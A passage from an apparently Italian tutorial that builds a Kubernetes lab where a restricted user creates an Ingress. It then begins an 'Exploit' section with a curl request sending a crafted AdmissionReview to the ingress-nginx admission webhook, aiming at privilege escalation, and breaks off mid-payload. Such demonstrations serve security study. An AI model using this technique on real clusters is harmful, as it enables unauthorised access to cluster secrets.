 ```shell
kubectl exec -it kubectl-pod -n sandbox -c kubectl -- /bin/bash
```

```shell
echo "apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: kubectl-ingress
  namespace: sandbox
  annotations:
    kubernetes.io/ingress.class: "nginx"
spec:
  rules:
    - host: kubectl.sandbox.local
      http:
        paths:
          - path: /
            pathType: Prefix
            backend:
              service:
                name: kubectl-service
                port:
                  number: 80" > /tmp/ingress.yml
```

A questo punto possiamo applicare la nostra risorsa

```shell
kubectl apply -f /tmp/ingress.yml
```

E verifiacre dalla shell principale che l'ingress sia stato creato

```shell
kubectl get ingress -A           
NAMESPACE   NAME              CLASS    HOSTS                   ADDRESS   PORTS   AGE
default     my-ingress        nginx    myapp.example.com                 80      24h
sandbox     kubectl-ingress   <none>   kubectl.sandbox.local             80      43s
```

Il nostro ambiente di demo è pronto!

1. Abbiamo una cli con accesso ristretto alle risorse del cluster ✅
2. Riusciamo ad ottenere le risorse del namespace in cui ci troviamo ✅
3. Riusciamo a creare una risosrsa di tipo ingress con un utente che non ha permessi di admin ✅
4. NON riusciamo a ottenere tutti i segreti all'interno del cluster utilizzando l'utente non autorizzato ✅

Ora è il momento di fare privilege escalation!

## Exploit

A partire dal container in cui è presente l'eseguibile di curl, effettuiamo una richiesta al nostro AdmissionWebhook

Con questa post stiamo sottoponendo una risorsa di tipo ingress all'AdmissionWebhook dell'nginx ingress controller. Se la richiesta è valida, ci aspettiamo una risposta positiva dall'AdmissionWebhook
```shell
curl -vk https://ingress-nginx-controller-admission.ingress-nginx.svc.cluster.local:/validate -H "Content-Type: application/json" -d'{
  "apiVersion": "admission.k8s.io/v1",
  "kind": "AdmissionReview",
  "request": {
    "kind": {
      "group": "networking.k8s.io",
      "version": "v1",
      "kind": "Ingress"
    },
```